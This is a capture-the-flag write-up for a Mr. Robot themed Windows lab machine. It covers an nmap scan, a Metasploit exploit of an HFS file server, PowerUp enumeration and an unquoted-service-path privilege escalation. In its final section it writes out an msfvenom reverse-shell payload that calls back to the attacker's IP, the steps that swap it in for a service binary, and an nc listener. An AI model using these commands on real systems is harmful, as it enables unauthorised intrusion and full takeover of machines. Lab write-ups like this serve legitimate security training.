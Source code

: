 >Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access.


VICTIM IP : 10.10.59.248
MY IP : 10.10.70.163 or 10.10.48.94

Open in broswer:

![[Pasted image 20230926091331.png]]

Who is the employee of the month? Bill Harper

# Nmap Scan

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl          Microsoft SChannel TLS
| fingerprint-strings: 
|   TLSSessionReq: 
|     P3MR0
|     steelmountain0
|     230925070656Z
|     240326070656Z0
|     steelmountain0
|     ;hnn
|     [-?+.
|     $0"0
|     m*1{
|     ,BlT
|_    (`z?F
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2023-09-25T07:06:56
|_Not valid after:  2024-03-26T07:06:56
|_ssl-date: 2023-09-26T07:12:49+00:00; -1s from scanner time.
8080/tcp  open  http          httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC

```

```
Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:4f:5d:ad:3a:37 (unknown)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-09-26 08:12:49
|_  start_date: 2023-09-26 08:06:47

```

In http://IP:8080 we have:

![[Pasted image 20230926091737.png]]

> An HTTP file server is typically a software application or a component of a web server that allows users to access and download files using the HTTP (Hypertext Transfer Protocol) or its secure counterpart, HTTPS (HTTP Secure). These servers are commonly used for sharing files over the internet, often via a web interface.

Use metasploit to search an exploit:

![[Pasted image 20230926093613.png]]

Set it and run:

![[Pasted image 20230926093650.png]]

We are in!

# Privilege Escalation

I will use the [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) tool.
Upload it to victim:

![[Pasted image 20230926100459.png]]

And use it in Powershell:

![[Pasted image 20230926100903.png]]

We found:

![[Pasted image 20230926101131.png]]

Note:
- the `CanRestart` is set to `True`
- The vulnerability is `Unquoted Service Paths`

## What is Unquoted Service Paths ?

Unquoted Service Paths" refers to a type of security vulnerability or misconfiguration commonly found in Windows operating systems. It is a specific class of privilege escalation vulnerability that can potentially allow an attacker to execute arbitrary code with elevated privileges.

In Windows, services are programs or processes that run in the background and can perform various tasks. Each service is associated with an executable file, and the path to this executable file is typically specified in the Windows Registry. ==The issue arises when the path to the executable contains spaces, and it is not enclosed in double quotes==.

For example, let's say there's a service called "MyService" with an executable path like this in the Registry:

```
C:\Program Files\MyService\myservice.exe
```

If this path is not enclosed in double quotes and there are spaces in the path, Windows may interpret it incorrectly. In some cases, ==Windows may execute a different program with elevated privileges instead of the intended service==. This can be exploited by an attacker to run malicious code with elevated permissions, potentially compromising the system's security.

## Exploit the vulnerability

Service name : `AdvancedSystemCareService9`

We note the path:
`Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe`

NOTE: we can also use the command `sc qc "AdvancedSystemCareService9"`:

![[Pasted image 20230926103141.png]]

We use the command `icacls "C:\Program Files (x86)\IObit"` to view if we can act on IObit folder.

![[Pasted image 20230926103453.png]]

And also `icacls "C:\Program Files (x86)\IObit\Advanced SystemCare"`

![[Pasted image 20230926103727.png]]

In both there is: `STEELMOUNTAIN\bill:(I)(OI)(CI)(RX,W)`
So, we can write it:
1. **(I):** This indicates that the permission is inherited from a parent folder. Inherited permissions come from a higher-level folder in the directory hierarchy. Inherited permissions are automatically applied to the current file or directory unless explicitly modified.
2. **(OI):** This stands for "Object Inherit." It means that the permission can be inherited by objects (subfolders or files) within the current directory.
3. **(CI):** This stands for "Container Inherit." It means that the permission can be inherited by containers (subfolders) within the current directory.
    
4. **(RX):** This part specifies permissions for the file or directory itself:
    
    - **Read (R):** This permission allows the user or group to view the contents of the file or directory.
        
    - **Execute (X):** This permission allows the user or group to execute (run) executable files or traverse directories (enter directories). It's important to note that execute permission is often necessary for accessing the contents of directories, even if you don't intend to execute files within them.
        
5. **(W):** ==This permission stands for "Write." It allows the user or group to modify and write to the file or directory, including creating new files or subfolders within the directory.==



> The ==CanRestart option being true, allows us to restart a service on the system==, the ==directory to the application is also write-able==. This means we can <u>replace the legitimate application with our malicious one</u>, restart the service, which will run our infected program!

SO:

1. create a reverse shell with msfvenom:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.48.94 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```

2. upload it 

```
meterpreter > upload ASCService.exe
```

3. stop the service

```
sc stop AdvancedSystemCareService9
```

![[Pasted image 20230926104539.png]]


4. replace ASCService.exe with malicious one
```
copy ASCService.exe "C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe"
```

![[Pasted image 20230926104723.png]]

5. Open a nc listener

`nc -lvnp 4443`

6. restart the service

`sc start AdvancedSystemCareService9`

![[Pasted image 20230926104943.png]]

And we are root:

![[Pasted image 20230926105027.png]]

